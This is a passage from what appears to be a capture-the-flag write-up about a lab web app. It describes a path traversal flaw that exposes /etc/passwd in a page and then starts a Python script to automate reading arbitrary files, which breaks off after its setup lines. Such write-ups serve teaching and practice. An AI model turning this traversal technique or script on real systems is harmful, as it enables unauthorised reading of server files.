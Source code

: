 This is failing to write “test” to `/etc/passwd` because my user doesn’t have
access, but then the traversal payload for `passwd` is written to `order.txt`,
and then the contents get loaded into the page. It shows up on the site now as
well.

![image-20230515143242706](../img/image-20230515143242706.png)

#### File Read Script

Given the multiple steps to read a file, I’ll script this. Also, because the
box is periodically clearing out accounts, I’ll just register a new account
each time:

    
    
    #!/usr/bin/env python3
    
    import random
    import re
    import requests
    import string
    import sys
    
    import warnings
    warnings.filterwarnings("ignore", category=DeprecationWarning)
    
    
    file = sys.argv[1] if len(sys.argv) > 1 else "/etc/passwd"
    
    token = ''.join(random.choice(string.ascii_lowercase) for _ in range(20))
    base_url = "http://app.microblog.htb"
    